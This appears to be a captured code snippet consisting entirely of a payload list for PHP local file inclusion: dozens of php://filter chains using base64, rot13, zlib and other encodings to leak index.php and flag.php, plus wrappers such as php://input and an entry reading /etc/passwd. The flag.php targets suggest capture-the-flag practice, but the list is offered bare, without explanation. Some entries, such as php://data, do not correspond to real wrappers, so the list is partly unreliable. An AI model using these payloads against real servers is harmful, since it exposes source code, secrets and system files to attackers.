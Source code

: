 ```
php://filter/read=string.toupper|convert.base64-encode/resource=index.php
php://filter/read=string.tolower|convert.base64-encode/resource=index.php
php://filter/read=string.rot13|convert.base64-encode/resource=index.php
php://filter/read=zlib.deflate|convert.base64-encode/resource=index.php
php://filter/zlib.deflate|convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate/resource=index.php
php://filter/read=zlib.inflate/convert.base64-encode/resource=index.php
php://filter/zlib.inflate/convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate/convert.base64-decode/resource=index.php
php://filter/zlib.inflate/convert.base64-decode/resource=index.php
php://filter/read=zlib.inflate/convert.quoted-printable-decode/resource=index.php
php://filter/zlib.inflate/convert.quoted-printable-decode/resource=index.php
php://filter/read=zlib.inflate|convert.base64-encode/resource=index.php
php://filter/zlib.inflate|convert.base64-encode/resource=index.php
php://filter/read=zlib.inflate|convert.base64-decode/resource=index.php
php://filter/zlib.inflate|convert.base64-decode/resource=index.php
php://filter/read=zlib.inflate|convert.quoted-printable-decode/resource=index.php
php://filter/zlib.inflate|convert.quoted-printable-decode/resource=index.php
php://filter/convert.base64-encode/resource=flag.php
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/zlib.deflate/convert.base64-encode/resource=flag.php
php://filter/zlib.deflate/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/read=string.toupper/resource=flag.php
php://filter/read=string.tolower/resource=flag.php
php://filter/read=string.strip_tags/resource=flag.php
php://filter/read=convert.base64-decode/resource=flag.php
php://filter/convert.base64-decode/resource=flag.php
php://filter/read=convert.quoted-printable-decode/resource=flag.php
php://filter/convert.quoted-printable-decode/resource=flag.php
php://filter/convert.uuencode/resource=flag.php
php://filter/read=convert.uuencode/resource=flag.php
php://filter/convert.urlencode/resource=flag.php
php://filter/read=convert.urlencode/resource=flag.php
php://filter/gzip/convert.base64-encode/resource=flag.php
php://filter/read=string.toupper|convert.base64-encode/resource=flag.php
php://filter/read=string.tolower|convert.base64-encode/resource=flag.php
php://filter/read=string.rot13|convert.base64-encode/resource=flag.php
php://filter/read=zlib.deflate|convert.base64-encode/resource=flag.php
php://filter/zlib.deflate|convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate/resource=flag.php
php://filter/read=zlib.inflate/convert.base64-encode/resource=flag.php
php://filter/zlib.inflate/convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate/convert.base64-decode/resource=flag.php
php://filter/zlib.inflate/convert.base64-decode/resource=flag.php
php://filter/read=zlib.inflate/convert.quoted-printable-decode/resource=flag.php
php://filter/zlib.inflate/convert.quoted-printable-decode/resource=flag.php
php://filter/read=zlib.inflate|convert.base64-encode/resource=flag.php
php://filter/zlib.inflate|convert.base64-encode/resource=flag.php
php://filter/read=zlib.inflate|convert.base64-decode/resource=flag.php
php://filter/zlib.inflate|convert.base64-decode/resource=flag.php
php://filter/read=zlib.inflate|convert.quoted-printable-decode/resource=flag.php
php://filter/zlib.inflate|convert.quoted-printable-decode/resource=flag.php
php://input
php://stdin
php://memory
php://temp
php://output
php://fd
php://data
php://filter/convert.base64-decode/resource=file:///etc/passwd
php://filter/convert.base64-decode/resource=php://input
php://filter/convert.base64-decode/resource=php://stdin
```